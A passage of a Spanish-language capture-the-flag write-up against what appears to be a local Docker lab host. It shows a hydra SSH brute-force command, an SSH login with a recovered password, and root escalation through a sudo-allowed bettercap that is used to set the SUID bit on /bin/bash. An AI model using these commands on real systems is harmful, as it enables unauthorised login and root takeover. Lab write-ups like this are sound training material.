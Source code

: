 **Nota** Aplicando fuerza bruta por ssh con **hydra** no obtuvimos nada
```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p bebeaguaqueessano -f ssh:172.17.0.2
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
No hubo vector de ataque pero si descubrimos que **agua_ssh** es un potencial usuario para **ssh** por lo cual probaremos conectandomos con las credenciales:
### Intrusion
Nos conectamos atraves de **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh agua@172.17.0.2 ( bebeaguaqueessano )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l

User agua may run the following commands on a4268a8d8f5e:
    (root) NOPASSWD: /usr/bin/bettercap # Tenemos un binario vulnerable
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/bettercap ]`
- Credenciales de usuario: `[ root ]:[ ]`

### Explotacion de Privilegios

###### Usuario `[ Agua ]`:

```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/bettercap -caplet script
```

Es una ejecución de **BetterCap** (una herramienta avanzada de redes y seguridad) con privilegios de **root**, Y ya ejecutado procedemos a ejecutar comandos:
```bash
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
```

Listamos ahora los permisos de la bash:
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
